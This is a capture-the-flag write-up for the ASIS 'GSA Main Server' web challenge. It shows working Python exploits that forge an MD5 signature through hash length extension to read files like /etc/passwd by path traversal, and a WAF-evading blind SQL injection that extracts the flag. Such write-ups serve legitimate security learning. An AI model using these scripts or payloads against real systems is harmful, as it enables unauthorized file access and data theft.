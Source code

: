 # GSA Main Server

The participants were given a portal containing some information and it has some features such as downloading attachments and etc. After spending some time on the task, I notieced a comment in the last line of index.php file:

```
<!--# vim: syntax=apache ts=4 sw=4 sts=4 sr noet-->
```

Indicating the file has been modified by vim, so I checked `index.php~`, nothing useful but:
```
<? require 'html/header.php'; ?>
<? require 'functions.php' ?>
<? require 'infoDB.php' ?>
```
I checked all pages by adding ~ and, `functions.php~` was there:
```
<?php

// database configuration
include 'configuration.php';

// waf to protect the web attacks
include 'waf.php';

// connection to the database
$mysqli = new mysqli(__DB_HOST, __DB_USER, __DB_PASS, __DB_NAME);

// signature function
// store __KEY in safe place
// __KEY is stored in configuration.php
// do not change the __KEY if you don't know how the system workes, the installation process produces secure 10-chacacter key
function makeSignature($fileName){
    return md5(md5(__KEY) . $fileName);
}

// function to get header data by HTTP packet
function getHeaderData($headers, $name){
    return (array_key_exists($name, $headers))?$headers[$name]:false;
}

// parsing the database resultst
function resultToArray($result){
    $rows = array();
    while($row = $result->fetch_assoc()){
        $rows[] = $row;
    }
    return $rows;
}

// end
```
On the other side, in portal (*http://178.62.34.76/showInformation/2*) there was an attachment to download:

```
GET /getAttachment/file.txt HTTP/1.1
Host: 178.62.34.76
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Signature: beb2e68c628653c72abcb388b078cfda
X-Requested-With: XMLHttpRequest
Referer: http://178.62.34.76/showInformation/2
Connection: close
```

It had two important parts, filename which was given by URL and `X-Signature: beb2e68c628653c72abcb388b078cfda` which prevented from changing file name:
```
GET /getAttachment/blahblah HTTP/1.1
Host: 178.62.34.76
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Signature: beb2e68c628653c72abcb388b078cfda
X-Requested-With: XMLHttpRequest
Referer: http://178.62.34.76/showInformation/2
Connection: close


Rsponse: Error: Invalid Signature has been given
```

Back to the functions.php, if makeSignature makes the signature, there are two notes:

+ The key cannot be brute forced, because the length was 10 character as mentioned in comment
+ The function was vulnerbale to Hash Length Extension

So I used hashpumpy library to exploit the hole:

```
import requests
import hashpumpy
import urllib
import sys

if len(sys.argv) != 2:
	print ''
	print '[>] Usage: python {} [path]'.format(sys.argv[0])
	print '[>] Example: python {} ../../../../../../etc/passwd'.format(sys.argv[0])
	print ''
	sys.exit()

new_digest, new_data = hashpumpy.hashpump('beb2e68c628653c72abcb388b078cfda', 'file.txt', '?/' + sys.argv[1] , 32)
new_data_encoded = urllib.quote_plus(urllib.quote_plus(new_data))

print ''
print '[>] New Signature: {}'.format(new_digest)
print '[>] New data: {}'.format(new_data.encode('hex'))
print '[+] Result:'
print ''
print '~~~~~~'

headers = {'X-Signature': new_digest}
response = requests.get('http://178.62.34.76/getAttachment/' + new_data_encoded, headers=headers);
print response.text;

print '~~~~~~'
print ''
```

Result:
![](1.png)

I spent much time here, figured out that two files were important to read:

+ Squid config 
+ .htaccess

The htaccess source:

```
RewriteEngine on

RewriteRule simple-php-captcha.php simple-php-captcha.php [L]

RewriteRule showInformation/(.+) /showInformation.php?informationID=$1 [L]
RewriteRule infoSubmit /informationSubmit.php [L]
RewriteRule notConfirmedInformation/(.+) /notConfirmedInformation.php?informationID=$1 [L]
RewriteRule getAttachment/(.+) /getAttachment.php?fileName=$1 [L]
RewriteRule dataSubmitted/(.+) /dataSubmitted.php [L]
RewriteRule adminer-4.3.1-en.php adminer-4.3.1-en.php [L]

#RewriteRule "searchData/(.+)" "http://gsa.dataStorage.domain/0/portalSearch/?searchURL=$1" [L]
#RewriteRule "API/(.+)" "http://gsa.API.domain/api/$1" [L]

RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond %{REQUEST_FILENAME} !-f
RewriteRule . index.php [L]

RewriteCond %{THE_REQUEST} \.php[\ /?].*HTTP/ [NC]
RewriteRule ^.*$ index.php [L]

```

Revealing two new hosts (next questions), and some hidden path such as `notConfirmedInformation/` and etc. `infoSubmit/' path allowed to insert new information and `notConfirmedInformation/` allowed to see the information submitted. After some strugling at this stage, I found that `notConfirmedInformation/{id}` was prone to MySQL injection. However, the injection was tricky because as I deduced:

+ There was two query, first loads the page and second upgrades the view number.
+ The first one was totally secures, the second one had injection though. **The SQLi test was easy**
+ The WAF was annoying, it blocked queries had some keywords such as `union` and replaced some characters such as `space`

###### SQLi test:
http://178.62.34.76/notConfirmedInformation/265940057+and+1=1
http://178.62.34.76/notConfirmedInformation/265940057+and+1=2

Page gets loaded but `Visited` ony upgraded in first request


###### The flag:
Finnaly, I wrote a python code to exploit the injection hole:

```
import requests
import re
import sys

regex = re.compile("<b>Visited:</b> (\d+)</div>")


if len(sys.argv) != 2:
    print ''
    print '[>] Usage: python {} [id]'.format(sys.argv[0])
    print '[>] Example: python {} 265940057'.format(sys.argv[0])
    print ''
    sys.exit()

qq = "http://178.62.34.76/notConfirmedInformation/{}".format(sys.argv[1])
body = requests.get(qq).text

visited = int(regex.findall(body)[0])


#q = "(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))"
#q = "(select(group_concat(column_name))from(information_schema.columns)where(table_schema=database())and(table_name='flag'))"
q = "(select(flag)from(flag))"

out = ""
for i in range(1,30):
    for c in range(31,126):
        qq = "http://178.62.34.76/notConfirmedInformation/"+sys.argv[1]+"-if(ord(mid("+q+","+str(i)+",1))="+str(c)+",0,2)"
        #print qq
        body = requests.get(qq).text
        #print body
        visited2 = int(regex.findall(body)[0])


        if visited + 1 == visited2:
            sys.stdout.write(chr(c)) 
            sys.stdout.flush()
            visited = visited2
            break
        if visited2==visited:
            pass
        else:
            pass
```

The Flag: ASIS{SQLi_sT1lL_Ex1sT5_G0od_j0B}

###### Contact
https://twitter.com/yshahinzadeh
